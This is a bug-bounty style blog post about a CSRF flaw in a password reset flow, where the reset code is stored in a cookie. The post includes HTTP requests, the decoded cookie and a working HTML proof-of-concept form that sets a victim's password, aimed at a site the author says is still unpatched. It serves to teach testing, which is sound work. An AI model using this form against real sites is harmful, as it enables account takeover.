

+++
title = "CSRF on Password Reset Link leading to account takeover."
date = 2026-09-03
draft = false
author = "Spandan Pokhrel"
description = "Think CSRF on password reset flows is impossible due to reset tokens? Think again. Here is how a misplaced reset code turned a standard reset flow into a full account takeover."

tags = [
  "CSRF",
  "Cross-Site Request Forgery",
  "Password Reset",
  "Account Takeover",
  "Web Security",
  "Web Application Security",
  "Authentication",
  "Security Research"
]

categories = [
  "Security Research",
  "Web Security"
]

[cover]
image = "images/thumbnail.jpg"
alt = "CSRF on Password Reset Flow"
caption = "CSRF on Password Reset Flow (img src: portswigger)"
relative = true
+++

Have you ever thought of testing for CSRF vulnerability on a password reset link? You might not have, because we generally believe that it is not possible, as the password reset link itself contains a reset token which acts as an alternative for a CSRF token.

I, too, once shared this assumption, but recently I encountered a CSRF vulnerability on a password reset link on a popular site. Since the vulnerability is still not patched, let's refer to it as `https://target.com`

Generally, the password reset link works in 2 different ways:
* The password reset link is itself `https://example.com/reset-password/secretToken` & upon changing the password, a POST request will be sent along with the token that is reflected in the URL.

```http
POST /reset-password?secretToken=token HTTP/2
Host: account.example.com

password=spandanpokh&password_confirm=spandanpokh
```

* The password reset link `https://example.com/reset-password/secretToken` redirects 302 to `https://account.example.com/reset-password?redirect=https%3A%2F%2Faccount.example.com%2Freset-password%2Fsteps&mode=reset-password` & then it allows us to change our password. Here also token will be sent in an HTTP request.

```http
POST /reset-password?redirect=https%3A%2F%2Faccount.example.com%2Freset-password%2Fsteps&mode=reset-password HTTP/2
Host: account.example.com

secretToken=token&password=%40Helloworld1&password_confirm=%40Helloworld1
```

Since it is a password reset link, a reset token will definitely be present in the HTTP request and we think that it is impossible to perform CSRF. Well, in my case it was a bit different.

In my case as well, the reset link `https://target.com/reset-password/79xldx5d0h1gxwxfgw75oobhiff34tmibh9fut9roj5ht` was returning `302` and redirecting to `https://account.target.com/reset-password?redirect=https%3A%2F%2Faccount.target.com%2Freset-password%2Fsteps&mode=reset-password`

However, upon changing the password, I noticed that the reset token was neither reflected on the URL nor on the body of the HTTP request.

```http
POST /reset-password?redirect=https%3A%2F%2Faccount.target.com%2Freset-password%2Fsteps&mode=reset-password HTTP/2
Host: account.target.com
Cookie:

password=%40Helloworld1&password_confirm=%40Helloworld1
```

Since there was no reset token on the HTTP request, I was thinking how is the server validating the request then? In that HTTP request, there were a lot of encoded cookies, and I immediately started decoding all those cookies.

Notice the `redirect_url` parameter on cookies.


Decoding the value:

* `aHR0cHM6Ly9hY2NvdW50LnRhcmdldC5jb20vYXV0aG9yaXplLz9yZXNwb25zZV90eXBlPWNvZGUmYWN0aW9uPXJlc2V0X3Bhc3N3b3JkJmNsaWVudF9pZD1ib3gmc2NvcGU9d2ViJnJlc2V0X2NvZGU9bW56djgwcGV5cHIwcHR2ZWloMnR4cnBpbGpvZTJ6dmhxeHNscTh2OWU0dTIzJmJyb3dzZXJfcGluPVRNVVlOVzlQSVdLVDlQSzRTMFgzMFlUV0c0TE9GOUZXVEk3MFZHUzhSNk9XR0ZEM1hRJnJlZGlyZWN0X3VyaT1odHRwcyUzQSUyRiUyRnRhcmdldC5jb20mZmluaXNoPTE%3D`
* `aHR0cHM6Ly9hY2NvdW50LnRhcmdldC5jb20vYXV0aG9yaXplLz9yZXNwb25zZV90eXBlPWNvZGUmYWN0aW9uPXJlc2V0X3Bhc3N3b3JkJmNsaWVudF9pZD1ib3gmc2NvcGU9d2ViJnJlc2V0X2NvZGU9bW56djgwcGV5cHIwcHR2ZWloMnR4cnBpbGpvZTJ6dmhxeHNscTh2OWU0dTIzJmJyb3dzZXJfcGluPVRNVVlOVzlQSVdLVDlQSzRTMFgzMFlUV0c0TE9GOUZXVEk3MFZHUzhSNk9XR0ZEM1hRJnJlZGlyZWN0X3VyaT1odHRwcyUzQSUyRiUyRnRhcmdldC5jb20mZmluaXNoPTE=`
* `https://account.target.com/authorize/?response_type=code&action=reset_password&client_id=box&scope=web&reset_code=mnzv80peypr0ptveih2txrpiljoe2zvhqxslq8v9e4u23&browser_pin=TMUYNW9PIWKT9PK4S0X30YTWG4LOF9FWTI70VGS8R6OWGFD3XQ&redirect_uri=https%3A%2F%2Ftarget.com&finish=1`

In other words, `reset_code` is actually being stored on `redirect_url` cookie & reset token is being reflected on the HTTP request under the cookie `redirect_url`. 

Now, here an attacker can easily take over the victim's account by performing a CSRF attack.

* The attacker goes to `https://account.target.com/reset-password-request` and attacker enters the victim's email.
* The victim notices that reset link and the victim opens the link.
* Once the victim opens the link, then the reset_code will be stored on their cookie.
> Note that victim only opens the link, and ignores it. In other word, victim do not change his/her password.
* The attacker performs a CSRF attack using this HTML code:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://account.target.com/reset-password?redirect=https%3A%2F%2Faccount.target.com%2Freset-password%2Fsteps&mode=reset-password" method="POST">
      <input type="hidden" name="password" value="YouAreHacked" />
      <input type="hidden" name="password&#95;confirm" value="YouAreHacked" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
* Once the victim clicks on that password reset link, the `reset_code` will be saved on their cookies `redirect_url`. When the victim clicks on that CSRF HTML POC:
```http
POST /reset-password?redirect=https%3A%2F%2Faccount.target.com%2Freset-password%2Fsteps&mode=reset-password HTTP/2
Host: account.target.com
Cookie: **redirect_url, which contains the reset_code.**

password=YouAreHacked&password_confirm=YouAreHacked
```
* The victim's password gets changed via a CSRF attack.

Therefore, yes, a CSRF attack is sometimes possible on the password reset link as well. Make sure that you check the password reset functionality & understand how it is functioning so that you can find some juicy vulnerabilities. 